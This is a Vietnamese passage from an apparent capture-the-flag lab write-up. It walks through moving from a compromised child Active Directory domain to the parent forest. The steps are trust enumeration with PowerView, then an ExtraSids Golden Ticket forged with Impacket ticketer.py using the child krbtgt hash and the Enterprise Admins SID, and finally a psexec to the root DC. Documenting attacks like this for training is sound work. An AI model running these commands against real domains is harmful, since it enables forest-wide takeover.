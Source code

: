 ![Screenshot 2024-12-09 162935](https://github.com/user-attachments/assets/23ad2be8-9992-4641-8304-dcade567f41f)

Giờ ta sẽ ở context là user *c.powers* hay chính là Christine Powers, quay về kiểm tra bloodhound, ta sẽ biết được user này thuộc group *Domain Admins*. Đến đây coi như xong child domain, để đi tiếp, do ngay từ đầu ta đã thấy được 2 IP này là 2 domain hoàn toàn khác nhau, và dựa vào 2 cái tên là *lab.trusted.local* và *trusted.local* ta biết được ta đã chiếm được child domain, và giờ ta sẽ enum trust giữa 2 domain này với PowerView.

![Screenshot 2024-12-09 171150](https://github.com/user-attachments/assets/fefd97d4-740a-46d4-a4c9-52fc30e4cac5)

# Trust Attack

Và với kết quả như trên, ta biết được giữa 2 domain này là Bidirectional, có nghĩa là cả 2 domain này đều được trust bởi nhau và vì vậy mà user đến từ cả 2 domain này đều có thể access được resource ở bên còn lại. Đến đây, ta sẽ cần hiểu hơn về [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) một chút, lí do là ta sẽ cần hiểu về cách mà ExtraSids attack hoạt động. Còn nói nôm na thì ta sẽ tạo ra một Golden Ticket từ krbtgt từ child domain và sử dụng SID của *Enterprise Admins* ở bên parent domain để sau đó ta có thể access vào DC ở parent domain như thành viên ở *Enterprise Admins*. Mình sẽ dùng ticketer, mục đích chỉ đơn giản là tạo ra Golden Ticket, ta đã chiếm được child domain rồi nên Mimikatz hay Rubeus cũng đều thoải mái cả, lab này không yêu cầu stealthy.

```
ticketer.py -nthash c7a03c565c6<REDACTED>fab576ebd -domain lab.trusted.vl -domain-sid S-1-5-21-2241985869-2159962460-1278545866 -extra-sid S-1-5-21-3576695518-347000760-3731839591-519 Administrator

c7a03c565c6<REDACTED>fab576ebd: Đây sẽ là NT hash của krbtgt mà ta có được ở child domain
S-1-5-21-2241985869-2159962460-1278545866: Đây là domain SID của child domain
S-1-5-21-3576695518-347000760-3731839591-519: Đây sẽ là SID của group của parent domain (ở đây là root domain luôn) và ta sẽ tìm ra để thêm 519 ở cuối để có được SID cho group Enterprise Admins
```
Tham khảo thêm về SID ở [đây](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/81d92bba-d22b-4a8c-908a-554ab29148ab)

```
ticketer.py -nthash c7a03c565c6<REDACTED>fab576ebd -domain lab.trusted.vl -domain-sid S-1-5-21-2241985869-2159962460-1278545866 -extra-sid S-1-5-21-3576695518-347000760-3731839591-519 Administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for lab.trusted.vl/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache

export KRB5CCNAME=$PWD/Administrator.ccache
```
Giờ ta có thể sử dụng ticket này như Enterprise Admin, đến đây mình sẽ *psexec* vào DC root domain để đọc flag cuối
